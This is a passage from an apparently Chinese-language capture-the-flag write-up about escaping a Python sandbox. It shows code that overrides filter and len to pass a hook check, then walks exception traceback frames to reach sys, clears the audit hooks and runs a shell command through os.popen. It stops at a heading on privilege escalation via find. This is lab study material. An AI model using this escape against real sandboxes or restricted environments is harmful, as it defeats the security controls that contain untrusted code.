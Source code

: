 ###  第二道坎：绕过钩子检查

![image-20250508120139027](assets/image-20250508120139027.png)

覆盖filter和len函数，就可以通过钩子检查

```
filter=lambda a,b: [1,2,3]
len = lambda x: 0
```

### 第三道坎：逃逸出去命令执行

题目也提示了用Exceptin，就是异常逃逸

```
try:
  1/0 # 触发 ZeroDivisionError
except Exception as e:
  sys_module = None
  f = e.__traceback__.tb_frame
  while f:
    if 'sys' in f.f_globals:
        sys_module = f.f_globals['sys']
        break
    f = f.f_back
  if sys_module:
    sys_module.audithooks = []
    os_module = sys_module.modules['os']
    print(os_module.popen('echo 1').read())
```

### 第四道坎： find提权

刚开始想可能flag像之前题一样在env执行结果里面，结果跑半天脚本发现FLAG环境变量值为空：
